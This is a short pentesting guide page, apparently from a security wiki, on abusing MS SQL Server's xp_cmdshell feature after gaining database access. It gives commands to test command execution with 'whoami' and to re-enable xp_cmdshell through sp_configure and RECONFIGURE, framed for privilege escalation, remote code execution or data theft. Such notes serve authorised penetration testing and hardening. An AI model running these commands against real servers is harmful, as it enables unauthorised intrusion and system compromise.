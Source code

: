 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# MS SQL - xp\_cmdshell Abuse

_xp\_cmdshell_ is a feature in MS SQL Server for executing system commands which if not properly configured, can be abused for achieving privilege escalation, RCE, or data theft.

Here is a guide on how to do this leveraging process once we are inside _MS SQL_:

* Check if _xp\_cmdshell_ is active by trying to execute a system command

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong>EXEC xp_cmdshell 'whoami'; #Example
</strong></code></pre>

***

* In case its use is disabled, do the reconfiguration and try the execution again

{% code overflow="wrap" lineNumbers="true" %}
```bash
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
EXEC xp_cmdshell 'whoami'; #This should now work normally
```
{% endcode %}
